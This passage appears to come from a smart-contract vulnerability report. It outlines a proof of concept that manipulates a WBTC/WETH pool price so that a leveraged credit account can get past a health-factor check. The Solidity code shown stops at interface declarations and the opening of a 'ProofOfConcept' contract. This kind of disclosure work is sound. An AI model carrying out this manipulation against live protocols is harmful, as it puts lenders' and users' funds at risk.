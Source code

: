 Basically, what it does is:
(1) Open credit account with 2 ethers, max leverage
(2) Approve WETH on creditAccount to be traded via SwapRouter
(3) Shift WETH price in WBTC/WETH 1.0% pool with 1000 ETH
To make WBTC more expensive when swapping (get less WBTC)
(4) Try swap with normal params, and crafted params and you can see that normal params is stuck with CF5 revert text, which is health factor error.

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

interface IERC20{
    function transfer(address to, uint value) external returns (bool);
    function approve(address spender, uint value) external returns (bool);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint256);
}

interface CreditManager{
    function openCreditAccount(
        uint256 amount,
        address onBehalfOf,
        uint256 leverageFactor,
        uint256 referralCode
    ) external;
    function getCreditAccountOrRevert(address borrower) external view returns(address);
    function approve(address targetContract, address token) external;
}

interface IWETH{
    function deposit() external payable;
    function withdraw(uint wad) external;
    function approve(address guy, uint wad) external returns (bool);
}

interface Adapter{
    struct ExactOutputParams {
        bytes path;
        address recipient;
        uint256 deadline;
        uint256 amountOut;
        uint256 amountInMaximum;
    }

    function exactOutput(ExactOutputParams calldata params) external returns (uint256 amountIn);
}

interface IRouter{
    struct ExactInputParams {
        bytes path;
        address recipient;
        uint256 deadline;
        uint256 amountIn;
        uint256 amountOutMinimum;
    }
    function exactInput(ExactInputParams memory params)
        external
        payable
        returns (uint256 amountOut);
}


contract ProofOfConcept{
```